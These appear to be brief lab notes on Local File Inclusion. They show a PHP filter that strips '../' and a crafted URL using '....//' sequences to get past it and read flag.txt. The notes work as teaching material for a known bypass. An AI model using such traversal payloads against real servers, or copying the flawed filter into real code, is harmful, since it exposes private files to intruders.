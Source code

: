 # Lesson
- LFI (Local File Inclusion)
    - Path Traversal Deep Dive


# Memo
```php
$language = str_replace('../', '', $_GET['language']);
# can bypass with ....// -> ../
```
```
http://XXX.XXX.XXX.XXX:PORT/index.php?language=languages/....//....//....///....//flag.txt
```